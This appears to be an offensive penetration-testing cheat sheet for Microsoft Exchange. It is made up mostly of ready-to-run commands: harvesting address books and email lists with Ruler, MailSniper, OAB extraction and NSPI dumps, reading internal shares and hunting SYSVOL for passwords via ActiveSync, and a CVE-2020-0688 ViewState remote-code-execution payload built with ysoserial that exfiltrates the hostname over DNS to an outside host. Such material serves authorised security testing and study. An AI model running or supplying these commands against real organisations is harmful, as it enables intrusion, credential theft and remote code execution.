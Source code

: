 # Exchange

- [https://exchangeserverversions.blogspot.com/](https://exchangeserverversions.blogspot.com/)
- [https://swarm.ptsecurity.com/attacking-ms-exchange-web-interfaces/](https://swarm.ptsecurity.com/attacking-ms-exchange-web-interfaces/)
- [https://github.com/mhaskar/ExchangeFinder](https://github.com/mhaskar/ExchangeFinder)

![Pentesting Exchange Mindmap](https://raw.githubusercontent.com/Orange-Cyberdefense/arsenal/master/mindmap/Pentesting_MS_Exchange_Server_on_the_Perimeter.png)

Discover Exchange servers on the Perimeter from a large scope of subdomains:

```bash
$ cat subdomains.txt
sub1.example.com
sub2.example.ru
sub3.example.bz

$ for i in `cat subdomains.txt | rev | cut -d. -f1-2 | rev | sort -u`; do echo https://autodiscover.$i; done | httpx -silent -random-agent -fr -t 20 -sc -title -td -ip | grep Outlook | grep -oP '\d+\.\d+\.\d+\.\d+' | dnsx -silent -re -ptr
1.3.3.7 [mx1.example.com]
66.66.66.66 [mx2.example.ru]
123.123.123.123 [mx3.example.bz]
```




## GAL



### Ruler

```
$ ./ruler -k -d megacorp.com -u snovvcrash -p 'Passw0rd!' -e snovvcrash@megacorp.com --verbose abk dump -o gal.txt
```



### MailSniper

```
PS > Get-GlobalAddressList -ExchHostname mx.megacorp.com -UserName MEGACORP\snovvcrash -Password 'Passw0rd!' -OutFile gal.txt
```



### OAB

Search for `<OABUrl>` node using Burp:

```
POST /autodiscover/autodiscover.xml HTTP/1.1
Host: mx.megacorp.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Authorization: Basic TUVHQUNPUlBcc25vdnZjcmFzaDpQYXNzdzByZCEK
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Content-Length: 350

<Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006">
    <Request>
      <EMailAddress>snovvcrash@megacorp.com</EMailAddress>
      <AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema>
    </Request>
</Autodiscover>
```

Or with a Python [script](https://gist.github.com/snovvcrash/4e76aaf2a8750922f546eed81aa51438):

```
$ ./oaburl.py MEGACORP/snovvcrash:'Passw0rd!'@mx.megacorp.com -e 'exists@megacorp.com'
[*] Authenticated users's SID (X-BackEndCookie): S-1-5-21-3167813660-1240564177-918740779-3102
[+] DisplayName: Sam Freeside
[+] Server: 00ff00ff-00ff-00ff-00ff-00ff00ff00ff@megacorp.com
[+] AD: dc01.megacorp.com
[+] OABUrl: https://mx.megacorp.com/OAB/<OABUrl>/
```

Get `oab.xml` and then `oab.lzx`:

```
$ curl -k --ntlm -u 'MEGACORP\snovvcrash:Passw0rd!' https://mx.megacorp.com/OAB/<OABUrl>/oab.xml > oab.xml
$ cat oab.xml | grep '.lzx' | grep data
$ curl -k --ntlm -u 'MEGACORP\snovvcrash:Passw0rd!' https://mx.megacorp.com/OAB/<OABUrl>/<LZXUrl> > oab.lzx
```

Install libmspack:

```
$ git clone https://github.com/kyz/libmspack ~/tools/libmspack && cd ~/tools/libmspack/libmspack
$ sudo apt install autoconf automake libtool -y
$ ./rebuild.sh && ./configure && make && cd -
```

Parse `oab.lzx` into `oab.txt` and extract emails from `oab.txt` with a regexp:

```
$ ~/tools/libmspack/libmspack/examples/oabextract oab.lzx oab.txt
$ strings oab.txt | egrep -o "[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,4}" | sort -u > emails.txt
```




## ActiveSync



### PEAS

* [https://labs.f-secure.com/archive/accessing-internal-fileshares-through-exchange-activesync/](https://labs.f-secure.com/archive/accessing-internal-fileshares-through-exchange-activesync/)
* [https://labs.f-secure.com/tools/peas-access-internal-fileshares-through-exchange-activesync/](https://labs.f-secure.com/tools/peas-access-internal-fileshares-through-exchange-activesync/)
* [https://github.com/FSecureLABS/peas](https://github.com/FSecureLABS/peas)
* [https://github.com/snovvcrash/peas](https://github.com/snovvcrash/peas)
* [https://github.com/sensepost/thumbscr-ews](https://github.com/sensepost/thumbscr-ews)

Install:

```
$ git clone https://github.com/snovvcrash/peas ~/tools/peas-m && cd ~/tools/peas-m
$ python3 -m virtualenv --python=/usr/bin/python venv && source ./venv/bin/activate
(venv) $ pip install --upgrade 'setuptools<45.0.0'
(venv) $ pip install -r requirements.txt
```

Run:

```
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --check
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --list-unc='\\DC01'
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --list-unc='\\DC01\SYSVOL\megacorp.com'
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --dl-unc='\\DC01\share\file.txt'
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --dl-unc='\\DC01\share\file.txt' -o file.txt
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --crawl-unc='\\DC01\share\' [--pattern xml,ini] [--download]
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --brute-unc [--prefix srv]
```



### How-To

1\. Use Nmap `http-ntlm-info` to get NetBIOS domain name and Exchange hostname: hunting for hostname pattern prefix if there is one.

2\. Locate DC (guess it trying hostname pattern prefix) and mirror `\\DC01\SYSVOL\megacorp.local\` share with `--crawl-unc` function:

```
$ python -m peas -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com --crawl-unc='\\DC01\SYSVOL\megacorp.com\' --download
```

3\. Find, xargs and grep for keywords in files: `password`, NetBIOS domain name (for additional account names), hostname pattern prefix (for additional hosts/shares):

```
$ find . -type f -print0 | xargs -0 grep -v PolicyDefinitions | grep -i -e password -e pass
$ find . -type f -print0 | xargs -0 grep -v PolicyDefinitions | grep -i <DOMAIN_NETBIOS_NAME>
$ find . -type f -print0 | xargs -0 grep -v PolicyDefinitions | grep -i <PREFIX>
```

4\. (optional) Brute other share names:

```
$ python -m peas --brute-unc -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' mx.megacorp.com [--prefix srv]
```




## CVE-2020-0688

* [https://www.thezdi.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys](https://www.thezdi.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys)
* [https://github.com/pwntester/ysoserial.net/releases](https://github.com/pwntester/ysoserial.net/releases)
* [https://github.com/MrTiz9/CVE-2020-0688](https://github.com/MrTiz9/CVE-2020-0688)

```
Get ViewStateUserKey: Browser > F12 > Storage > ASP.NET_SessionId
Get ViewStateGenerator: Browser > F12 > Console > document.getElementById("__VIEWSTATEGENERATOR").value
PS > [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('$name = hostname;nslookup "$name.0000000000ffffffffff.d.zhack.ca"'))
PS > .\ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "powershell -exec bypass -enc <BASE64_CMD>" --validationalg "SHA1" --validationkey "CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --viewstateuserkey "<VIEWSTATE>" --generator "<GENERATOR>" --islegacy --isdebug
https://mx.megacorp.com/ecp/default.aspx?__VIEWSTATEGENERATOR=<GENERATOR>&__VIEWSTATE=<VIEWSTATE>
```




## NSPI

* [https://swarm.ptsecurity.com/attacking-ms-exchange-web-interfaces/](https://swarm.ptsecurity.com/attacking-ms-exchange-web-interfaces/)
* [https://github.com/ptswarm/impacket](https://github.com/ptswarm/impacket)

* `>= Impacket v0.9.22.dev1+20200819.170651.b5fa089b`

List Address Books and count entities in every one of them:

```
$ exchanger.py MEGACORP/snovvcrash:'Passw0rd!'@mx.megacorp.com -debug nspi list-tables -count
```

Dump any specified Address Book by its name or GUID:

```
$ exchanger.py MEGACORP/snovvcrash:'Passw0rd!'@mx.megacorp.com -debug nspi dump-tables -guid 00ff00ff-00ff-00ff-00ff-00ff00ff00ff -lookup-type EXTENDED -output-file gal.txt
$ cat gal.txt | grep 'mail,' | sort -u | awk -F' ' '{print $3}' > emails.txt
```

Return AD objects by their GUIDs:

```
PS > (Get-ADuser -Identity snovvcrash).ObjectGUID
$ exchanger.py MEGACORP/snovvcrash:'Passw0rd!'@mx.megacorp.com -debug nspi guid-known -guid 00ff00ff-00ff-00ff-00ff-00ff00ff00ff -lookup-type FULL
```

Dump all AD records via requesting DNTs:

```
$ exchanger.py MEGACORP/snovvcrash:'Passw0rd!'@mx.megacorp.com -debug nspi dnt-lookup -lookup-type EXTENDED -start-dnt 0 -stop-dnt 500000 -output-file dnt-dump.txt
```
